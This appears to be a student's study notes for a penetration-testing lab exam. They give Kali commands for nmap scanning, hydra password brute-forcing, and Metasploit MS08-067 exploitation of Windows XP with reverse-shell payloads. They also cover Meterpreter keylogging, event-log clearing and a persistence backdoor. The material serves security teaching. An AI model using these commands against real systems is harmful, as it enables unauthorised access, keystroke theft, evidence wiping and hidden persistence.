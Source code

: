 # Practical Exam 1 Practice

## Question 1

To setup network on Linux:

```bash
ip a a <IP>/<Prefix> dev <NetworkInterface>
```

if using msfadmin on Metasploitable, use sudo to run with privilege.

To setup network on Windows 7 and higher:

* Go to Network and Sharing Center, click on the connection.
* Then select Properties.
* Then highlight the "Internet Protocol..." with IPv4, select Properties.
* Assign IP accordingly.

For Windows XP:

* Go to Control Panel.
* Select Network Connection.
* Double-click the network.
* Select Properties.
* Then highlight "Internet Protocol [TCP/IP]", select Properties.
* Assign IP accordingly.

As this task will be done for you during the test, use 

```bash
ip a
# OR
ifconfig
``` 

on Kali to check Kali's IP, or Linux distros like Metasploitable2.

## Question 2

To find live hosts on current network, use nmap:

```bash
nmap -sn <NetworkAddress/Prefix>
```

For port scanning:

```bash
nmap <HostAddress>
```

For OS information:

```bash
nmap -O -v <HostAddress>
```

To turn off the firewall on Windows:

* Search "Windows Firewall" and select the option with exactly these 2 words.
* Click "Turn Windows Firewall on or off" on side menu.
* Turn off the firewall.

## Question 3

To brute-force a password of an account with a service protocol on a specific host, use hydra:

```bash
hydra -l <LoginUsername> -P <PathToPasswordDictionary> <HostIPAddress> <ServiceProtocol> -t <ParallelAttempts>
```

## Question 4

Windows XP can be exploited with VNC injection, giving GUI view or control, or Meterpreter, a CLI tool to perform malicious actions on target host.

For VNC injection, while in Metasploitable Framework prompt:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set lhost <KaliIPAddress>
set rhost <XPIPAddress>
set viewonly false
exploit
```

For Meterpreter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set lhost <KaliIPAddress>
set rhost <XPIPAddress>
exploit
```

During Meterpreter session, commands that could be useful:

```bash
cd
ls
pwd
sysinfo # System information
ipconfig # Network information
screenshot
getpid # Get current process ID
ps
migrate <processID> # Migrate to process ID
search -f <filename> # Search file based on name
dowload <RemotePath> <LocalPath> # Remote download file from target host to local
keyscan_start # Start key logging, only works with good process privilege.
keyscan_dump # Dump key logging, only works with good process privilege.
keyscan_stop # Stop key logging, only works with good process privilege.
clearev # Clean event logs
```

To add backdoor on the Meterpreter session, background the session, then in MSF:

```bash
use exploit/windows/local/persistence
set lhost <KaliIPAddress>
set lport 445
set startup SYSTEM # DO NOT lowercase SYSTEM, as it is parameter value
sessions -l # Get the meterpreter session's ID
set session <MeterpreterSessionID> 
exploit
```

Then, use multi/handler to listen the incoming connection:

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <KaliIPAddress>
set lport 445
run
```

After rebooting, XP will send back the connection and Kali will enter Meterpreter prompt automatically.
